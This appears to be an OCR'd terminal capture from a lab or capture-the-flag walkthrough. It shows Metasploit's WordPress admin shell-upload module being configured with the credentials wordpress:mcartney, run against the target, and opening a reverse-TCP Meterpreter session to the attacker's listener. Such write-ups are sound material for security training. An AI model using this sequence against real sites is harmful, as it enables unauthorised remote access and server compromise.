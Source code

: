 ```bash
                                        wordpress application
   USERNAME                   yes       The WordPress usernam
                                        e to authenticate wit
                                        h
   VHOST                      no        HTTP server virtual h
                                        ost

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an i
                                     nterface may be specifie
                                     d)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   WordPress

View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost eth1
lhost => 10.0.2.5
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost http://debugsec.thl
rhost => http://debugsec.thl
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set user
set useragent  set username   
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username wordpress
username => wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password mcartney
password => mcartney
msf6 exploit(unix/webapp/wp_admin_shell_upload) > check
[*] 10.0.2.144:80 - The target appears to be vulnerable.
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.0.2.5:4444 
[*] Authenticating with WordPress using wordpress:mcartney...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/mrSdippeTD/xbUJBJxMvl.php...
[*] Sending stage (39927 bytes) to 10.0.2.144
[+] Deleted xbUJBJxMvl.php
[+] Deleted mrSdippeTD.php
[+] Deleted ../mrSdippeTD
[*] Meterpreter session 1 opened (10.0.2.5:4444 -> 10.0.2.144:41196) at 2024-06-30 00:02:07 +0200

meterpreter > 
```
